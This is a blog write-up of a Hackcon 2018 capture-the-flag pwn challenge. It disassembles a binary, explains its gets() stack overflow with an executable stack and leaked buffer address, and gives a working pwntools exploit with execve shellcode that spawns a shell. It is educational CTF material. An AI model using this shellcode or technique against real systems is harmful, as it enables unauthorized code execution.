 ```yaml
---
layout: post
title:  "[Write-up] Hackcon 2018 - She Sells Sea Shells - PWN"
date:   2018-08-17
category: blog
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-bof)
  - Difficulty: Easy

This challenge was the fourth challenge (90 pts) of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Welcome.

I have a small gift for you (no strings attached) 0x7ffcfd9a7b60

```
The first question is: what is the "small gift" that the program is giving us?
Let's open it in radare and try to figure it out:

```code
|	        0x00400676      55             push rbp                                                                                                      
|           0x00400677      4889e5         mov rbp, rsp                                                                                                          |           0x0040067a      4883ec50       sub rsp, 0x50               ; 'P'                                                                                     
|           0x0040067e      897dbc         mov dword [local_44h], edi    ; arg1                                                                                  |           0x00400681      488975b0       mov qword [local_50h], rsi    ; arg2                                                                                 
|           0x00400685      bf88074000     mov edi, str.Welcome.       ; 0x400788 ; "Welcome.\n"                                                                 |           0x0040068a      e891feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)                                                           
|           0x0040068f      488d45c0       lea rax, [local_40h]                                                                                                  |           0x00400693      4889c6         mov rsi, rax
|           0x00400696      bf98074000     mov edi, str.I_have_a_small_gift_for_you__no_strings_attached___p
|           0x0040069b      b800000000     mov eax, 0                                                                                                            
|           0x004006a0      e88bfeffff     call sym.imp.printf         ;[2] ; int printf(const char *format)                                                     
|           0x004006a5      488b05a40920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        
|           0x004006ac      4889c7         mov rdi, rax                                                                                                          
|           0x004006af      e8acfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006b4      488b05a50920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00
|           0x004006bb      4889c7         mov rdi, rax                                                                                                          |           0x004006be      e89dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           
|           0x004006c3      488d45c0       lea rax, [local_40h]                                                                                                  |           0x004006c7      4889c7         mov rdi, rax                                                                                              
|           0x004006ca      b800000000     mov eax, 0                                                                                                            |           0x004006cf      e87cfeffff     call sym.imp.gets           ;[4] ; char *gets(char *s)
|           0x004006d4      488b05750920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        |           0x004006db      4889c7         mov rdi, rax
|           0x004006de      e87dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006e3      488b05760920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00                                                             |           0x004006ea      4889c7         mov rdi, rax
|           0x004006ed      e86efeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006f2      b800000000     mov eax, 0
|           0x004006f7      c9             leave                                                                                                                 \           0x004006f8   *  c3             ret                                                                                                    

```

Ok, we can see that at 0x0040068f the address of the buffer (local_40h) is placed in rax. Notice that it uses the
"LEA" instruction instead of MOV, because it wants to "Load Effective Address" of the buffer in the register.
Than it moves rax in rsi as second parameter of the printf function, as the x64 calling convetion wants (first parameter in rdi , then rsi, rdx, rcx and so on).

After that, it requests, as the other challenges, an input that is managed using the gets () function, without the lenght control.

Then we can control the return address because there are no canaries on the stack. Moreover the NX bit is 0, then the stack is executable.
It means that if we place a shellcode in the stack and redirect the program to that address (that "casually" is given by the program), the code will be executed.

Now we have everything to write the exploit, and this time I used PwnTools to help me in the communication with the remote server:

```code
from pwn import *

'''
Shellcode:

xor rdi, rdi
xor rsi, rsi
xor rdx, rdx
xor rax, rax
push rax
mov rbx, 68732f2f6e69622fH
push rbx
mov rdi, rsp
mov al, 59
syscall

'''
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

log.info ("Shellcode len %d bytes", len(shellcode))

rem = False

if rem:
    p = remote ("139.59.30.165", 8900)
else:
    p = process ("./bof")

a = p.recv(80)
addr = int(a[60:74], 16)
payload = shellcode + (72 - len(shellcode))*'a' + p64(addr)
p.sendline(payload)
p.interactive() 
#print payload

```

And it works ;) !

![placeholder](https://ringr0p.github.io/images/hackcon2018-4-flag.png)
